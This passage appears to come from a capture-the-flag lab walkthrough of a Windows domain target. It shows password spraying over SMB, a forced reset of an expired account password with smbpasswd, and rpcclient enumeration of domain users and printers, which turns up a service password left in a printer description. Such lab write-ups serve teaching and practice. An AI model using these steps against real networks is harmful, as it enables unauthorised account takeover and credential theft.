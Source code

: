 ```
$ smbclient -L 10.10.10.193 -U bnielson%Fabricorp01
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
$ smbclient -L 10.10.10.193 -U tlavel%Fabricorp01
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
$ smbclient -L 10.10.10.193 -U bhult%Fabricorp01
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```

Using any of the usernames, we receive an error indicating that the password has expired and must be changed. Let's arbitrarily select a username to use and reset it to something we can remember with the `smbpasswd` tool.

```
$ smbpasswd -r 10.10.10.193 -U bnielson
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user bnielson
```

After we reset it, we have a short window to test various services before it reverts and requires a reset again. After painstakingly poking around, we discover that we can enumerate RPC with `rpcclient` using the password we've set.

```
$ rpcclient -U "bnielson" 10.10.10.193
Enter WORKGROUP\bnielson's password:
rpcclient $>
```

Awesome! Let's enumerate the domain users and see what we can find.

```
> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```

We'll also recall that this scenario is based around a print service, so we can safely assume the domain has printers. Let's enumerate them.

```
> enumprinters
	flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```
